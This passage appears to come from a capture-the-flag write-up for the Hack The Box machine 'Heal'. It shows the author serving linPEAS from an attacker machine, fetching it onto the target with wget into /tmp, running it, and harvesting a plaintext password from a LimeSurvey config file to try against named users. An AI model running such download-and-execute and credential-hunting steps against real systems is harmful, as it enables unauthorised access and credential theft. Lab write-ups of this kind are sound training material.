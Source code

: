 
# Introducing linPEAS — the Privilege Escalation Automation Tool

Started a simple HTTP server on attacker machine to host linPEAS:

```bash
┌──(futaba㉿FutabaLab)-[~/Downloads/htb/Heal]
└─$ python3 -m http.server 8000 
```

Attempted to download linPEAS on target but failed due to permissions in current directory:

```bash
$ wget http://10.10.14.31:8000/linpeas.sh
linpeas.sh: Permission denied
Cannot write to 'linpeas.sh' (Permission denied).
```

Switched to `/tmp` (world writable) and retried:

```bash
$ cd /tmp
$ wget http://10.10.14.31:8000/linpeas.sh
```

Download succeeded!

---

# Making linPEAS Executable and Running It

```bash
$ chmod +x linpeas.sh
$ ./linpeas.sh
```

### linPEAS Output Snippet (Password Hunting)

```
╔══════════╣ Searching passwords in config PHP files
...
/var/www/limesurvey/application/config/config.php:                      'password' => 'AdmiDi0_pA$$w0rd',
```

---

# Jackpot! Found Password in PHP Config File

* **Password:** `AdmiDi0_pA$$w0rd`
* Possible users to try: `ron`, `ralph`

---
